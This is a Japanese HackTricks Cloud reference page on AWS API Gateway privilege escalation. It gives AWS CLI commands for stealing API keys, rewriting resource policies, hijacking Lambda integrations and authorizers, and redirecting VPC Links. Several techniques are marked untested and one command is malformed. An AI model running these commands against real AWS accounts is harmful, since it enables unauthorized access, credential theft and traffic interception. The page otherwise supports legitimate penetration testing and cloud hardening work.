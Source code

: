 # AWS - Apigateway Privesc

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Apigateway

詳細については、以下をチェックしてください:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

この権限を持っていると、設定されているAPIのAPIキーを生成することができます（リージョンごとに）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在的影響：** この技術では権限昇格はできませんが、機密情報にアクセスする可能性があります。

### `apigateway:GET`

この権限を持っていると、設定されているAPIの生成されたAPIキーを取得できます（リージョンごとに）。
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在的影響：** この技術では権限昇格はできませんが、機密情報にアクセスする可能性があります。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

これらの権限を持っていると、APIのリソースポリシーを変更して自分自身がそれを呼び出すアクセス権を与え、APIゲートウェイが持っている可能性のあるアクセス（例えば脆弱なlambdaを呼び出すこと）を悪用することができます。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在的な影響：** 通常、この技術を使って直接権限昇格することはできませんが、機密情報にアクセスする可能性があります。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
テストが必要です
{% endhint %}

`apigateway:PutIntegration`、`apigateway:CreateDeployment`、`iam:PassRole`の権限を持つ攻撃者は、**既存のAPI Gateway REST APIに新しい統合を追加し、IAMロールが付与されたLambda関数を使用することができます**。その後、攻撃者は**Lambda関数をトリガーして任意のコードを実行し、IAMロールに関連付けられたリソースへのアクセスを潜在的に得ることができます**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在的な影響**: Lambda関数のIAMロールに関連するリソースへのアクセス。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
テストが必要です
{% endhint %}

`apigateway:UpdateAuthorizer` と `apigateway:CreateDeployment` の権限を持つ攻撃者は、**既存のAPI Gatewayオーソライザーを変更して** セキュリティチェックをバイパスしたり、APIリクエストが行われたときに任意のコードを実行することができます。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在的影響**: セキュリティチェックのバイパス、APIリソースへの不正アクセス。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
テストが必要です
{% endhint %}

`apigateway:UpdateVpcLink` の権限を持つ攻撃者は、**既存のVPC Linkを異なるネットワークロードバランサーに指すように変更し、プライベートAPIトラフィックを不正または悪意のあるリソースにリダイレクトする可能性があります**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在的な影響**: 私的なAPIリソースへの不正アクセス、APIトラフィックの傍受または妨害。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>
